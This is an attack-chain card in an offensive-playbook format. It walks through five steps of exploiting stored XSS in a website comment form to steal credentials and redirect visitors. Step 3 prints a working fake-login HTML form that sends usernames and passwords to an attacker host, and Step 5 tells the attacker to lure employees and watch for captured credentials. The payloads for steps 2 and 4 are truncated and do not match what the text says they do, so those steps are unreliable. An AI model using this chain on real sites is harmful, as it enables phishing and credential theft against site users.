

---
tags:
  - xss
  - stored-xss
  - credential-theft
  - redirection
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands: []
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T12:00:00Z'
procedures:
  - '[[procedures/Navigate-to-Comment-Form]]'
  - '[[procedures/Inject-Script-in-Name-Field]]'
  - '[[procedures/Inject-Fake-Login-Form-in-Comments]]'
  - '[[procedures/Inject-Redirect-Payload-in-Comments]]'
  - '[[procedures/Observe-Payload-Execution]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:16:26.073Z'
description: >-
  A multi-stage attack exploiting a stored XSS vulnerability in a website's
  comment form to inject persistent malicious scripts, enabling credential
  theft, site redirection, and potential privilege escalation when viewed by
  authenticated users.
skill_level: intermediate
impact_level: high
id: 154b9e5f-eab0-439a-8732-89e48056ba71
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
# Stored XSS via Comment Form for Credential Theft and Malicious Redirection

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in a website's comment form to inject persistent JavaScript payloads that execute when viewed by authenticated users, leading to phishing, redirection, and potential data exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome or Firefox with developer tools)

### Target Environment

- Web application with comment form at https://████
- No specific services or ports required beyond standard HTTP/HTTPS (80/443)
- Attacker needs internet access to host external scripts or receive data

### Initial Access Requirements

- No credentials needed for submission
- Public access to the comment form
- No prior access; attack starts from external navigation

## Detailed Attack Procedures

### Step 1: Navigate to Comment Form
procedure: [[procedures/Navigate-to-Comment-Form]]

**Objective**: Access the vulnerable comment form to prepare for payload injection.

**Instructions**: Open a web browser and navigate directly to the target comment form page.

**Expected Output**: The comment form loads, displaying fields for Name and Comments.

**Success Indicators**:
- Form page accessible without errors
- Input fields visible and functional

### Step 2: Inject Script in Name Field
procedure: [[procedures/Inject-Script-in-Name-Field]]

**Objective**: Submit a payload in the Name field to inject an external script tag that loads malicious JavaScript when the comment is viewed.

**Instructions**: In the Name field, enter the payload `">` and fill out other required fields minimally before submitting the form.

**Expected Output**: Form submits successfully; payload stored in the database without immediate execution.

**Success Indicators**:
- Submission confirmation
- No sanitization errors

### Step 3: Inject Fake Login Form in Comments
procedure: [[procedures/Inject-Fake-Login-Form-in-Comments]]

**Objective**: Create a persistent phishing form in the Comments field to capture credentials from viewing users.

**Instructions**: In the Comments field, enter the HTML payload `<h3>Please login to proceed</h3><form action=http://attackerIP>Username: <input type="username" name="username"> Password: <input type="password" name="password">  <input type="submit" value="Logon"> ` (note: fix the action URL to http://attackerIP/), complete the Name field normally, and submit.

**Expected Output**: Fake login form embedded in the stored comment.

**Success Indicators**:
- Form submission success
- Payload not escaped in preview (if available)

### Step 4: Inject Redirect Payload in Comments
procedure: [[procedures/Inject-Redirect-Payload-in-Comments]]

**Objective**: Inject an onerror handler to force redirection to a malicious site upon comment viewing.

**Instructions**: In the Comments field, enter `</img>`, fill Name normally, and submit the form.

**Expected Output**: Malicious image tag stored; triggers on load when viewed due to invalid src.

**Success Indicators**:
- Successful submission
- No immediate blocking

### Step 5: Observe Payload Execution
procedure: [[procedures/Observe-Payload-Execution]]

**Objective**: Confirm exploitation by monitoring execution when an authenticated user views the comments.

**Instructions**: Have a target user (e.g., employee) view the comment page; monitor attacker's server for hits from blind.js load, credential posts, or redirection logs.

**Expected Output**: Server logs show incoming requests from victim's IP, confirming execution.

**Success Indicators**:
- Weblog entries from target domain
- Captured credentials or redirection confirmations

## Attack Chain Summary

### Key Achievements

1. Persistent XSS injection via unsanitized form fields
2. Credential theft through fake login forms
3. Forced redirection to malicious sites
4. Potential escalation to admin access via executed scripts
5. Confirmation of blind XSS impact on internal users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T12:00:00Z*
